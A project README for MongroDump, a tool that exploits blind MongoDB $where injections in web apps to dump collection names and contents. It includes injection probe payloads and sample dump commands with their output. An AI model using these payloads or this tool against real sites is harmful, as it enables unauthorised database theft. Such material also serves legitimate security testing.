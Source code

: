 Description
===========

MongroDump exists first and foremost to exploit blind MongoDB injections.

While many programs exist to find NoSQL injections MongroDump is focused on
exploiting them and actually getting the data out.

Usage
=====

MongroDump only supports a rather specific use case right now: a web-based
MongoDB blind $where injection where a good request and a bad one produce
different web pages.

Although testing for injections is planned at the time it is not present. You
may refer to external resources such as the OWASP_ or `this article`__ for
more information on that matter. MongroDump specializes in $where requests
which are very common and akin to SELECT statements in SQL.

__ securelayer7_

.. _OWASP: https://www.owasp.org/index.php/Testing_for_NoSQL_injection

.. _securelayer7: http://blog.securelayer7.net/mongodb-security-injection-attacks-with-php/

Let's suppose that you found an injection point, and that trying with dummy
values such as **', 7>=8;//** or **', 7<=8;//** gives you two different pages
(for example one containing the word "pancake" and the other an error message
saying "Not found").

First translate that request to a curl command put in a file. Most proxies
can do so such as burp or mitmproxy. Zap too with the community extensions.

Modify that request to include a flag at the injection point. The default
flag is #MONGRODUMP# so you would have something like **', #MONGRODUMP#;//**.
This can be put in any part of the request.

You may then call mongrodump to get the list of all collections:

.. code:: sh

    $ mongrodump -r "curl_cmd.sh" -t "pancake" -f "Not found"
    [+] Dumping collection list
    [-] Number of collections: 2
    [-] String length: 6
    [-] Collections: bakery
    [-] String length: 14
    [-] Collections: system.indexes
    bakery
    system.indexes

So we found two collections. We can now dump the content of a collection:

.. code:: sh

    $ mongrodump -r "curl_cmd.sh" -t "pancake" -f "Not found" -d "bakery"
    [+] Dumping bakery
    [-] String length: 63
    [-] Element: { "_id": "3798a844", "id": 1, "name": "pancake", "price": 8.5 }
    [-] String length: 62
    [-] Element: { "_id": "968c2244", "id": 2, "name": "cookie", "price": 3.5 }
    { "_id": "3798a844", "id": 1, "name": "pancake", "price": 8.5 }
    { "_id": "968c2244", "id": 2, "name": "cookie", "price": 3.5 }

In a blind case 8 requests are needed to recover a single byte. This can be
quite time-consuming, but if you trust the server you may use multithreading
to recover multiple characters at a time.

Roadmap
=======

::

    [+] Dumping database in web, blind $where cases
    [+] Add multithreading
    [ ] Find injection prefix/suffix
    [ ] Find injection points
    [ ] Dumping database in web, blind time-based $where cases
    [ ] Addition of Server-Side JavaScript (SSJS) injections

Command line interface
======================

::

    Usage: mongrodump [options] --request FILE --true REGEX --false REGEX

    Arguments:
        -r, --request FILE      File containing a curl command
                                It should contain the flag at the injection point
        -t, --true  REGEX       Regex determining a valid request
        -f, --false REGEX       Regex determining an invalid request

    Options:
        -h, --help              Print this help and exit
        -v, --version           Print version and exit

        -d, --dump WHAT         What to dump. If not used, dumps the collection
                                names, otherwise dumps the given collection.
        -F, --flag FLAG         Injection flag to use; default: #MONGRODUMP#
        -T, --threads NUM       Use NUM threads. Default is 5.
        -V, --verbosity LEVEL   Set the verbosity level. Default is 2.

Dependencies
============

See `dub.json` for details

- pegged
- dlang-requests

Building
========

This project is managed with dub:

::

    # Building
    $ dub build -b release

    # Testing
    $ dub test

    # Generate the documentation
    $ dub build -b docs

License
=======

This program is under the GPLv3 License.

You should have received a copy of the GNU General Public License
along with this program. If not, see http://www.gnu.org/licenses/.

Author
======

::

    Main developper: Cédric Picard
    Email:           cpicard@openmailbox.org
